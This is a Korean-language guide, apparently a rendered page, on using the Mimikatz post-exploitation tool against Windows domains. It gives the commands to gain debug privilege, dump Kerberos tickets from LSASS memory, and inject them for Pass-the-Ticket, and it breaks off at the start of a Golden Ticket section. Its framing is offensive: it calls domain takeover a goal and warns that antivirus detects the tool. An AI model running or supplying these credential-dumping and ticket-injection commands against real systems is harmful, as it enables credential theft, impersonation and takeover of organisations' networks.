 
https://github.com/gentilkiwi/mimikatz
# Mimikatz 활용 가이드

Mimikatz는 Windows 시스템의 메모리에서 평문 비밀번호, NTLM/Kerberos 해시, Kerberos 티켓 등을 추출하는 데 사용되는 강력한 후기 침투(Post-Exploitation) 도구입니다. 이 도구는 도메인 환경에서 권한 상승 및 측면 이동 공격에 필수적으로 활용됩니다.

> **주의:** Mimikatz는 대부분의 백신(AV) 및 EDR(Endpoint Detection and Response) 솔루션에 의해 악성 코드로 탐지되므로, 사용 시 각별한 주의가 필요합니다.

---

### **1. 기본 사용법**

- **목표:** Mimikatz를 실행하고 필요한 권한을 획득합니다.

```powershell(title="Mimikatz 실행 및 디버그 권한 획득")
# Mimikatz 실행 (관리자 권한 필요)
C:\Path\To\mimikatz.exe

# Mimikatz 프롬프트에서 디버그 권한 획득 (LSASS 접근을 위해 필수)
privilege::debug
```

---

### **2. Pass-the-Ticket (PtT)**

- **개념:** Kerberos 티켓(TGT 또는 서비스 티켓)을 덤프하여 비밀번호 없이 다른 시스템에 인증하는 기법입니다. 공격자는 티켓을 훔쳐 자신의 세션에 주입하여 해당 티켓의 권한을 가장합니다.

#### **티켓 덤프**
```powershell(title="메모리에서 Kerberos 티켓 덤프")
# 현재 시스템의 LSASS 메모리에 캐시된 모든 Kerberos 티켓을 .kirbi 파일로 내보냄
sekurlsa::tickets /export
```

#### **티켓 주입 및 활용**
```powershell(title="덤프된 티켓 주입")
# 덤프된 .kirbi 파일을 현재 세션에 주입하여 해당 티켓의 권한을 가장
kerberos::ptt <path_to_ticket.kirbi>
```

```powershell(title="주입된 티켓 확인")
# Windows 내장 klist 명령어로 현재 세션에 로드된 Kerberos 티켓 확인
klist
```

---

### **3. Golden Ticket (골든 티켓)**

- **개념:** `krbtgt` 계정의 NTLM 해시를 이용하여, 유효 기간이 긴 위조된 TGT(Ticket-Granting Ticket)를 생성합니다. 이 티켓은 도메인 내 모든 서비스에 대한 무제한 접근 권한을 부여하며, 도메인 장악의 궁극적인 목표 중 하나입니다.
